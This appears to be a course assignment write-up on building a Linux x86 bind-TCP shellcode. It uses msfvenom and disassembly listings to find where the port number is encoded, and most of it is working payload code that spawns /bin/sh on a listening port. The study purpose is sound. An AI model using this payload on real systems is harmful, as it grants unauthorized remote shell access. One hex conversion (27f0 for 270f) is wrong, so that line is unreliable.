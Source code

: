 # Assignment 1

## What to do 

• Create a Shell_Bind_TCP shellcode 
   
    – Binds to a port 
   
    – Execs Shell on incoming connection 

• Port number should be easily configurable

## Solution

The easiest solution is to obtain the disassembled code from the bind_tcp_shell from Metasploit.

      sudo msfvenom -p linux/x86/shell_bind_tcp LPORT=8888 -b "\x00" -i 0 -f raw |ndisasm -u -

      00000000  31DB              xor ebx,ebx
      00000002  F7E3              mul ebx
      00000004  53                push ebx
      00000005  43                inc ebx
      00000006  53                push ebx
      00000007  6A02              push byte +0x2
      00000009  89E1              mov ecx,esp
      0000000B  B066              mov al,0x66
      0000000D  CD80              int 0x80
      0000000F  5B                pop ebx
      00000010  5E                pop esi
      00000011  52                push edx
      00000012  68020022B8        push dword 0xb8220002
      00000017  6A10              push byte +0x10
      00000019  51                push ecx
      0000001A  50                push eax
      0000001B  89E1              mov ecx,esp
      0000001D  6A66              push byte +0x66
      0000001F  58                pop eax
      00000020  CD80              int 0x80
      00000022  894104            mov [ecx+0x4],eax
      00000025  B304              mov bl,0x4
      00000027  B066              mov al,0x66
      00000029  CD80              int 0x80
      0000002B  43                inc ebx
      0000002C  B066              mov al,0x66
      0000002E  CD80              int 0x80
      00000030  93                xchg eax,ebx
      00000031  59                pop ecx
      00000032  6A3F              push byte +0x3f
      00000034  58                pop eax
      00000035  CD80              int 0x80
      00000037  49                dec ecx
      00000038  79F8              jns 0x32
      0000003A  682F2F7368        push dword 0x68732f2f
      0000003F  682F62696E        push dword 0x6e69622f
      00000044  89E3              mov ebx,esp
      00000046  50                push eax
      00000047  53                push ebx
      00000048  89E1              mov ecx,esp
      0000004A  B00B              mov al,0xb
      0000004C  CD80              int 0x80

Once we have it, we need to find the place where the PORT is injected. We locate it by changing the LPORT variable when running metasploit and comparing both outputs.

      sudo msfvenom -p linux/x86/shell_bind_tcp LPORT=9999 -b "\x00" -i 0 -f raw |ndisasm -u -

      00000000  31DB              xor ebx,ebx
      00000002  F7E3              mul ebx
      00000004  53                push ebx
      00000005  43                inc ebx
      00000006  53                push ebx
      00000007  6A02              push byte +0x2
      00000009  89E1              mov ecx,esp
      0000000B  B066              mov al,0x66
      0000000D  CD80              int 0x80
      0000000F  5B                pop ebx
      00000010  5E                pop esi
      00000011  52                push edx
      00000012  680200270F        push dword 0xf270002
      00000017  6A10              push byte +0x10
      00000019  51                push ecx
      0000001A  50                push eax
      0000001B  89E1              mov ecx,esp
      0000001D  6A66              push byte +0x66
      0000001F  58                pop eax
      00000020  CD80              int 0x80
      00000022  894104            mov [ecx+0x4],eax
      00000025  B304              mov bl,0x4
      00000027  B066              mov al,0x66
      00000029  CD80              int 0x80
      0000002B  43                inc ebx
      0000002C  B066              mov al,0x66
      0000002E  CD80              int 0x80
      00000030  93                xchg eax,ebx
      00000031  59                pop ecx
      00000032  6A3F              push byte +0x3f
      00000034  58                pop eax
      00000035  CD80              int 0x80
      00000037  49                dec ecx
      00000038  79F8              jns 0x32
      0000003A  682F2F7368        push dword 0x68732f2f
      0000003F  682F62696E        push dword 0x6e69622f
      00000044  89E3              mov ebx,esp
      00000046  50                push eax
      00000047  53                push ebx
      00000048  89E1              mov ecx,esp
      0000004A  B00B              mov al,0xb
      0000004C  CD80              int 0x80

We can see that the position where the code is different is 

      00000012  68020022B8        push dword 0xb8220002 (b822 in litte endian is 22b8 which is 8888 in decimal)

      00000012  680200270F        push dword 0xf270002 (0f27 in litte endian is 27f0 which is 9999 in decimal)

So, we only need to modify this line every time we want to change the listening port. 

To do that easily, you can use compile_bind_shell.sh. It asks to the user the filename and the port that will be set to the final binary.

